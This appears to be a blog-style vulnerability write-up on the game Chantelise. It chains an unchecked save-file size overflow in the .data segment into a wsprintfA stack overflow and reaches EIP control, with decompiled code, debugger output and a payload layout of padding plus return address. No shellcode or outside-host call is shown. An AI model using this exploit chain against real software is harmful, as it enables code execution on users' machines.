






# TL;RD
The save file parser passes an attacker-controlled file size directly to qmemcpy, overflowing a global buffer in .data and corrupting adjacent resource file path strings. When the game fails to open the corrupted path, the error handler copies it into a fixed-size stack buffer via wsprintfA with no length check. That allows us to overwrite ret address and achive ACE due to the lack of ASLR and DEP.

# Discovery

When I first started this project, I wasn't paying much attention to the save file parsing function. I just mapped out the algorithm, how it loads data into a buffer, and moved on. However, under closer inspection i realized, that there is vulnerability, that allows us to copy any amount of data from file to .data buffers.

# Exploiting Global Buffer Overflow

While analyzing the function and examining the original save file, it became clear that the legitimate save file size is `0xC820` bytes. However, during loading, the game blindly trusts the attacker-controlled file size, passing it directly to `qmemcpy` without any validation. This allows an attacker to craft a save file of arbitrary size (larger than `0xC820`) and overwrite an arbitrary amount of data in the .data segment.

Below is a decompiled view of the save file parser function, with comments explaining where and why the vulnerability exists:

```c
int load_savefile() // .text:004648B0
{
  FILE *v0; // eax
  FILE *v1; // edi
  int result; // eax
  size_t filesize; // ebx
  void *v4; // esi

  v0 = fopen(aSaveDat, Mode); // Open save.dat with rb mode
  v1 = v0;
  if ( v0 )
  {
    // File size is calculated using fseek/ftell.
    // This value is attacker-controlled, since we can craft a file
    // of any size we want.
    filesize = get_filesize_fseek(v0);
    v4 = malloc(filesize);            // Allocate a heap chunk of filesize bytes
    fread(v4, 1u, filesize, v1);      // Read filesize bytes from fd into the heap chunk
    fclose(v1);

    // First global buffer overflow.
    // The attacker-controlled filesize is passed to qmemcpy without any bounds check,
    // copying all data from the heap chunk into the global buffer at &playersaves (.data:09C4E140).
    qmemcpy(&playersaves, v4, filesize);

    sub_47B720();
    result = init_saveslots_if_null(); // Initialize save slots if null.

    // Second global buffer overflow.
    // filesize is passed to qmemcpy again without any bounds check,
    // copying from &playersaves (.data:09C4E140) into &live_saveslots (.data:09C3C368),
    // which sits at a higher address in the .data segment.
    qmemcpy(&live_saveslots, &playersaves, filesize);
  }
  else
  {
    result = init_saveslots_if_null();

    // THIS IS HOW IT SHOULD BE DONE
    // A hardcoded size of 0xC820 prevents the overflow entirely.
    qmemcpy(&live_saveslots, &playersaves, 0xC820u);
  }
```

So i started debugging it. When loading a normal save file, the memory region immediately following the save data looks like this:



The last 4 bytes of the save data are located at `0x09C5A95C`. However, when we add additional data to the save file and load it, the same memory region looks like this:



As you can see, the game continues copying the save file data into higher memory addresses beyond the end of the global buffer at `0x09C5A95C`.

### What we can do with it?

At first, I thought this vulnerability was unexploitable due to the lack of any pointers or other immediately useful data in the `.data` segment.
However, after taking a closer look, I discovered that the .data segment also stores .x file paths at higher addresses, located after our vulnerable buffer.



Then I tried to overwrite the file path. To make things easier, I calculated the offset between the end of the global buffer and the beginning of the first .x file path (all memory after global buffer contains a bunch of .x, .bmp and other file paths). I also copied the already-initialized memory from Cheat Engine's memory view, just in case the game relied on some of the variables stored in this region.

Alright, time to overwrite the file path and see what happens. Well... nothing particularly exciting. The game simply displays a warning box saying it couldn't open the file `AAAAAAAAAAAAAA...` and then freezes on the loading screen.



But wait, that's actually a useful clue. We can search for the "File Opne Error" (that's gamedev typo, not mine :D ) string in the binary to find the function responsible for displaying this warning and, more importantly, attempting to load the .x file. And that's where the second chapter of this story begins.

# Exploiting Stack Buffer Overflow

After locating the function responsible for loading the .x file, I traced the filename backwards from the MessageBoxA call to its source and found something much more interesting: a stack-based buffer overflow.
This function is located at `.text:0045E4B0` and takes two arguments, one of which is `LPCSTR lpCaption`, the path of the .x file the game is trying to open:

```c
void __cdecl load_xfile02(int a1, LPCSTR lpCaption) // Filename passed as argument to function
{
  unsigned __int16 *v2; // esi
  // ... SNIPPET ...
  CHAR Text[256]; // This is the stack buffer, where function loads file path 

  v2 = (unsigned __int16 *)malloc((size_t)&unk_800000);
  if ( v2 )
  {
    v3 = fopen(lpCaption, Mode); // Function tries to open file
    v4 = v3;
    if ( v3 )
    {
    // ... SNIPPET ... we don't need all that logic, trust me
      else
      {
        wsprintfA(Text, "Not File Found %s", lpCaption); // <-- This is the text we get in MessageBox when game can't load file
        MessageBoxA(hWndParent, Text, aError_0, 0); // This displays error MessageBox
        free(v2);
      }
    }
  }
  else
  {
    sprintf(Text, byte_50FD38);
    MessageBoxA(hWndParent, Text, lpCaption, 0);
  }
}
```

The interesting part is the error-handling path. If `fopen(lpCaption, "rb")` fails, the game constructs an error message using:
```c
wsprintfA(Text, "Not File Found %s", lpCaption);
```

The resulting string is stored in Text, which is a fixed-size 256-byte stack buffer.

Normally, this wouldn't be particularly interesting. But remember that we already control `lpCaption` through the first vulnerability. We can therefore replace the .x file path in the .data segment with an arbitrarily long string. When that string is passed to `wsprintfA`, there is no bounds check on Text. Once the resulting message exceeds 256 bytes, wsprintfA continues writing past the end of the stack buffer and starts corrupting adjacent stack data.

So we've effectively turned the first vulnerability into a primitive for triggering a second one:

```
1. Arbitrary save file

2. Global .data buffer overflow

3. Overwrite .x file path

4. Controlled lpCaption

5. wsprintfA(..., lpCaption)

6. 256-byte stack buffer overflow

7. Corrupted stack / return address
```
After that, I generated a very long cyclic pattern (there is no need to be percise, because we don't know which file will be loaded by the game first, so let's just try to overwrite as much file paths as we can) and saved it to the file. When launching the game, nothing unusual happened: the crash only occurred after loading the modified save file. The game displayed the expected error about being unable to open the file and then crashed.



Well, if it crashes, there's only one thing left to do: fire up the debugger and see what we managed to overwrite.

```
(3204.42e0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000001 ebx=00000001 ecx=0dd60000 edx=0dd60000 esi=09c5af18 edi=00458880
eip=34664933 esp=19e7fc38 ebp=09c3c368 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
34664933 ??              ???
```

That's a hit! `EIP = 0x34664933 = 4fI3` and it's part of out cyclic pattern, we control `eip` register (`ret` address on stack).

Lets confirm it by overwriting eip to `\x42\x42\x42\x42`

```
0:017> g
(40ec.4b3c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000001 ebx=00000000 ecx=0de50000 edx=0de50000 esi=09c5af18 edi=00458880
eip=42424242 esp=1a92fc38 ebp=09c3c368 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
42424242 ??              ???
```

Alright, now our dummy payload looks like this:
```
[] Original Save Data  
[] Padding to first xpath string
[] 6401 bytes of '\x41' padding
[] \x41\x42\x42\x42 (ret)
```

Now we need to find where out buffer is stored in memory? `ESI` register stores address of `buffer-0x4`.



So we need to overwrite ret address with `esi + 0x4` and try to hit CC opcode at the beginning of the buffer to check if we land there.

```
0:017> g
(3630.938): Break instruction exception - code 80000003 (first chance)
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Steam\steamapps\common\Chantelise\chantelise.exe.unpacked.exe
eax=00000001 ebx=00000000 ecx=0de00000 edx=0de00000 esi=09c5af18 edi=00458880
eip=09c5af1c esp=1ab0fc38 ebp=09c3c368 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000202
chantelise_exe_unpacked+0x985af1c:
09c5af1c cc              int     3
```

And we landed into out `int 3` instruction at the start of the buffer. So now we can do anything we want, ret2shellcode or ROP i.e. Since ASLR and DEP are disabled in executable, we can use any technique to exploit this stack buffer overflow.

# Proof of Concept

So, what's now? Bad Apple!

<iframe width="100%" height="400" src="https://www.youtube.com/embed/dR0cQH1JGNI" frameborder="0" allowfullscreen></iframe>

# Other exploit vectors
WIP...